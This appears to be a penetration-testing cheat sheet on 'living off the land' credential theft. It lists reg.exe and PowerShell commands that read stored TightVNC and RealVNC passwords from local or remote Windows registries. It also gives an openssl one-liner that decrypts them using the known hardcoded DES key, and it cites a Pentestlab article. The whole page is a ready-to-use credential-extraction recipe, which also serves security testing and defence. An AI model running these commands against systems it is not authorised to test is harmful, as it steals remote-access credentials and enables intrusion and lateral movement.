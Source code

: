 # Living off the Land

## 01 - TightVNC

### 1.1 - Command Prompt

```
C:\> reg.exe query [\\<IP>\]HKCU\Software\TigerVNC\WinVNC4 /v Password

C:\> reg.exe query [\\<IP>\]HKCU\SOFTWARE\TightVNC\Server" /v Password
```

Decode the hardcoded password.

```
$ basenc -d --base16 <<< "<hex_encoded_password" | openssl enc -provider legacy -des-cbc -nopad -nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -C
```

### 1.2 - PowerShell

```powershell
PS C:\> Get-ItemProperty -Path "HKCU:\Software\TightVNC\Server"

PS C:\> $FormatEnumerationLimit = -1
Get-ItemProperty -Path Registry::HKLM\software\TightVNC\Server -Name ControlPassword
$password = 139, 16, 57, 246, 188, 35, 53, 209
ForEach ($hex in $password) {
[Convert]::ToString($hex, 16) }
```

## 02 - RealVNC

### 2.1 - Command Prompt

```
C:\> reg.exe query [\\<IP>\]HKCU\Software\ORL\WinVNC3\Password

C:\> reg.exe query [\\<IP>\]HKLM\SOFTWARE\RealVNC\WinVNC4 /v password

C:\> reg.exe query [\\<IP>\]HKLM\SOFTWARE\RealVNC\vncserver
```

### 2.2 - PowerShell

```
PS C:\> Get-ItemProperty -Path "HKCU:\Software\ORL\WinVNC3\Password"

PS C:\> Get-ItemProperty -Path "HKLM:\SOFTWARE\RealVNC\WinVNC4" -Name password
```

---
## References

### Pentestlab

- [Pentestlab Blog: Stored Credentials](https://pentestlab.blog/2017/04/19/stored-credentials/)